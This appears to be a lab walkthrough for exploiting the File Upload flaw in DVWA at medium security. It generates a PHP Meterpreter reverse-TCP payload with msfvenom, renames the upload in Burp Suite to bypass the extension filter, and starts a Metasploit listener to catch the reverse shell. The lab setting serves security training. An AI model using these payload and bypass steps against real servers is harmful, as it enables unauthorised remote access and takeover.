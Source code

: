 


#### Security level - medium

- Open Terminal
	> sudo su
	> cd
	> msfvenom -p php/meterpreter/reverse_tcp LHOST= #hostip LPORT=3333 -f raw
	
- The raw payload is generated in the terminal window. Select the payload, right-click on it, and click **Copy** from the context menu to copy the payload.
- Now, in the terminal window, type **cd /home/attacker/Desktop/** and press **Enter** to navigate to the **Desktop**.
- Type **pluma medium.php.jpg** and press **Enter** to launch the **Pluma** text editor and paste the payload and save the file.
- Click the **Firefox** icon from the top section of **Desktop**, type **http://10.10.10.16:8080/dvwa/login.php**. Into the address bar and press **Enter**.
- The **DVWA** login page appears; enter the **Username** and **Password** as **admin** and **password**. Click the **Login** button.
- The **Welcome to Damn Vulnerable Web Application!** Page appears. Click **DVWA Security** in the left pane to view the DVWA security level.
- Change the security level from impossible to low by selecting **medium** from the drop-down list and clicking the **Submit** button.
- Click the **File Upload** option from the left pane.
- The **Vulnerability: File Upload** page appears; click the **Browse…** button to upload a file.
- When the **File Upload** window appears, navigate to the **Desktop** location, select the payload file **medium.php.jpg**, and click **Open**.
- Observe that the selected file (**medium.php.jpg**) appears to the right of **Browse…** button.
- Now, before uploading the file, set up a **Burp Suite** proxy. Start by configuring the proxy settings of the browser.
- Click the **Open Menu** icon in the right corner of the menu bar and select **Preferences** from the list.
- The **General** settings tab appears. In the **Find in Preferences** search bar, type **proxy**, and press **Enter**.
- A **Connection Settings** window appears; select the **Manual proxy configuration** radio button and ensure that the **HTTP Proxy** is set to **127.0.0.1** and **Port** as **8080**. Ensure that the **Use this proxy server for all protocols** checkbox is selected and click **OK**. Close the **Preferences** tab.
- Open Burp Suite
	- In the **Proxy** settings, by default, the **Intercept** tab opens-up. Observe that the interception is active by default, as the button says **Intercept is on**. Leave it running.
	- Switch back to the browser window and click the **Upload** button under the **Vulnerability: File Upload** section to upload the payload file.
	- Switch back to the **Burp Suite** window. Observe that the request has been captured and displayed in the raw format under the **Raw** tab. In the **filename** field, you will see the name of the file to be uploaded as **medium.php.jpg**.
	- Change the **filename** to **medium.php** and click the **Forward** button to forward the request.
	- Now, turn the interception off by clicking on the **Intercept is on** button. The button now says **Intercept is off** and close Burp Suite.
	- You will see a message saying that the file has been uploaded successfully, with the location of the file. Note the location of the file and minimize the browser window.
- Remove the proxy settings and change it back to no proxy.
- Open Terminal
	> sudo su
	> cd
	> msfconsole 
	> use exploit/multi/handler (to set up listener)
	> set payload php/meterpreter/reverse_tcp
	> set LHOST #hostip 
	> set LPORT 3333
	> run (to start the listener)
	